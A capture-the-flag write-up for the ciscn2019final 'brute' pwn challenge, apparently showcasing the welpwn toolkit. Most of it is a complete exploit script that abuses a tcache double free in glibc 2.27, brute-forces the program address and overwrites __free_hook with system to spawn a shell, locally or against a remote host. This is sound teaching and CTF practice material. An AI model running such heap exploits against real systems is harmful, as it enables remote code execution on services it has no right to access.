

# challenge

[binary](challenges/1-brute)

source: ciscn2019final

# description

## glibc

version 2.27 ( I use `strings libc.so.6 | grep 2.2` to check it )

```
# file libc.so.6
libc.so.6: ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b417c0ba7cc5cf06d1d1bed6652cedb9253c60d0, for GNU/Linux 3.2.0, stripped
```

it's easy to know that this libc is an official libc ( 2.27-3ubuntu1_amd64 )

we can use [glibc-all-in-one](https://github.com/matrix1001/glibc-all-in-one) to download that official package which contains all libs including `ld.so`, `libc.so`, `libpthread.so` and so on. we will use it later.

## protection

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## vulnerability

double free (look into the binary for detail)

## exploit technique

- using double free of tcache to overwrite `__free_hook`. then trigger `system("/bin/sh")`
- need brute force because these is only a leak of malloced address.
- we can guess prog address by heap address. (1/4096, guess 12 bits)
- `stderr` address is in bss segment.

so wee need the following structure.

```
tcache_chunk(vuln) -> prog_bss -> stderr
```

after we malloc to stderr, libc address will be leaked. then we just overwrite `__free_hook`.

# solve

before you read this, make sure you understand what I wrote in section 0.

## step 1

alter the template for this challenge in the editor.

```python
#https://github.com/matrix1001/welpwn
from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    ctx.binary = './pwn'
    ctx.custom_lib_dir = '/root/share/project/glibc-all-in-one/libs/2.27-3ubuntu1_amd64'
    ctx.remote = ('172.16.9.21', 9006)
    ctx.debug_remote_libc = True
    
    ctx.symbols = {
        'lst':0x2022a0,
        'stderr':202160,
    }

    def add(idx, sz, content):
        sl(1)
        sla('index', idx)
        sla('size', sz)
        sa('write', content)
    
    def remove(idx):
        sl(2)
        sla('index', idx)
```

__note__
- `custom_lib_dir`: check `welpwn` doc for detail. the path to package downloaded & extracted by `glibc-all-in-one`.
- `symbols`: debug symbols used in `gdb`, show you how to use later. there is a list of pointer at `0x2022a0` in the binary. name it whatever you want. 
- `add & remove`: only for this binary.
- `sl & sla`: you may note that I use `sl(1)` instead of `sla('>', 1)` in `add`, I will explain it in later section.

## step 2

open `IPython` and paste those codes into it.



now we check our settings in gdb.

first write these two lines into your editor, then copy to `IPython`. ( don't feel complicated, you will know how convenient it is )

```python
rs()
dbg()
```

now you can check things in gdb ( follow my step ).


as you can see, I use `$lst` and `$stderr` to check my symbols. and the libc path is right. also, this binary loaded `libm.so`

## step 3

now we try to write the main part of our exploit.

the program will leak heap address, and we need to figure out program address without brute force.

at first, we should quit `gdb` started before.

just write these in your editor and copy to `IPython`.

```python
rs()
dbg('c')
add(0, 0x20, 'aaa')
ru('gift :')
heap_base = int(ru('\n'), 16) - 0x11e70
```

then we press `ctrl+c` in `gdb` panel, check our `stderr` pointer in bss segment manually. and then calculate the offset.


as you can see in my terminal, `heap_base` can be easily checked in `IPython` anytime and the offset can be calculated pretty easily. we don't need to restart this program and guess the offset. so we can write down the following line into our editor.

```python
guess_stderr = heap_base - 0x11b0ea0
```

for now, the essential part of this section has been presented.

## step 4

debug and write further exploit.

usually, we need to debug the program for many times. because of `IPython`, we never need to run the full script.

all we need to do is to copy from `rs()` to the bottom line of our script and run it.

for this challenge, we should copy from `rs()` to `heap_base = ...`, then calculate `guess_stderr` manually, finally copy the rest part.

```python
rs()

dbg('c')

add(0, 0x20, 'aaa')
ru('gift :')
heap_base = int(ru('\n'), 16) - 0x11e70
guess_stderr = heap_base - 0x56cea0

ru('>')
add(1, 0x30, 'bbb')
ru('>')
remove(0)
ru('>')
remove(0)
ru('>')
add(2, 0x20, p64(guess_stderr))

ru('>')
add(3, 0x20, 'aaa')
ru('>')
add(4, 0x20, 'aaa')
ctx.clean()
add(5, 0x20, p64(0xfbad2087))
ru('gift :')
stderr = int(ru('\n'), 16)

libc_base = stderr - 4114048
free_hook = libc_base + 4118760
system = libc_base + 324672

add(6, 0x30, 'ccc')
ru('>')
remove(1)
ru('>')
remove(1)
ru('>')
add(7, 0x30, p64(free_hook))
ru('>')
add(8, 0x30, 'aaa')
ru('>')
add(9, 0x30, p64(system))
ru('>')
add(10, 0x40, '/bin/sh\0')
ru('>')
remove(10)
irt()
```

## step 5

we have got a shell via debug, then we need to get it by brute force. just add several lines.

```python
while True:
    try:
        context.log_level = 'info'
        rs()
        
        #dbg('c')

        add(0, 0x20, 'aaa')
        ru('gift :')
        heap_base = int(ru('\n'), 16) - 0x11e70
        guess_stderr = heap_base - 0x56cea0
        
        ru('>')
        add(1, 0x30, 'bbb')
        ru('>')
        remove(0)
        ru('>')
        remove(0)
        ru('>')
        add(2, 0x20, p64(guess_stderr))
        
        ru('>')
        add(3, 0x20, 'aaa')
        ru('>')
        add(4, 0x20, 'aaa')
        ctx.clean()
        add(5, 0x20, p64(0xfbad2087))
        ru('gift :')
        stderr = int(ru('\n'), 16)
        
        libc_base = stderr - 4114048
        free_hook = libc_base + 4118760
        system = libc_base + 324672
        
        add(6, 0x30, 'ccc')
        ru('>')
        remove(1)
        ru('>')
        remove(1)
        ru('>')
        add(7, 0x30, p64(free_hook))
        ru('>')
        add(8, 0x30, 'aaa')
        ru('>')
        add(9, 0x30, p64(system))
        ru('>')
        add(10, 0x40, '/bin/sh\0')
        ru('>')
        remove(10)
        sl('ls')
        sl('ls')
        irt()
    except KeyboardInterrupt:
        break
    except EOFError:
        continue
```

__note__
- `EOFError`: exploit error, brute force failed.
- `KeyboardInterrupt`: recommended.
- `sl('ls')`: insure `EOFError` when process died.
- remember to disable `dbg`
- `log_level`: `info` is recommended for brute force.

just copy those into `IPython` and wait for several minutes.

## step 6

exploit remote target.

pretty simple. change `rs()` to `rs('remote')`.

full exploit.

```python
#https://github.com/matrix1001/welpwn
from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    ctx.binary = './pwn'
    ctx.custom_lib_dir = '/root/share/project/glibc-all-in-one/libs/2.27-3ubuntu1_amd64'
    ctx.remote = ('172.16.9.21', 9006)
    ctx.debug_remote_libc = True
    
    ctx.symbols = {
        'lst':0x2022a0,
        'stderr':0x202160,
    }
    
    
    def add(idx, sz, content):
        sl(1)
        sla('index', idx)
        sla('size', sz)
        sa('write', content)
    
    def remove(idx):
        sl(2)
        sla('index', idx)
    
    while True:
        try:
            context.log_level = 'info'
            #rs('remote')
            rs()
            
            #dbg('c')
            
            
            add(0, 0x20, 'aaa')
            ru('gift :')
            heap_base = int(ru('\n'), 16) - 0x11e70
            guess_stderr = heap_base - 0x56cea0
            
            ru('>')
            add(1, 0x30, 'bbb')
            ru('>')
            remove(0)
            ru('>')
            remove(0)
            ru('>')
            add(2, 0x20, p64(guess_stderr))
            
            ru('>')
            add(3, 0x20, 'aaa')
            ru('>')
            add(4, 0x20, 'aaa')
            ctx.clean()
            add(5, 0x20, p64(0xfbad2087))
            ru('gift :')
            stderr = int(ru('\n'), 16)
            
            libc_base = stderr - 4114048
            free_hook = libc_base + 4118760
            system = libc_base + 324672
            
            
            add(6, 0x30, 'ccc')
            ru('>')
            remove(1)
            ru('>')
            remove(1)
            ru('>')
            add(7, 0x30, p64(free_hook))
            ru('>')
            add(8, 0x30, 'aaa')
            ru('>')
            add(9, 0x30, p64(system))
            ru('>')
            add(10, 0x40, '/bin/sh\0')
            ru('>')
            remove(10)
            sl('ls')
            sl('ls')
            irt()
        except KeyboardInterrupt:
            break
        except EOFError:
            continue
```

# conclusion

this section shows you how to make brute force easier to debug and exploit. you may now understand some advantages of interactive pwnning.

thanks for reading.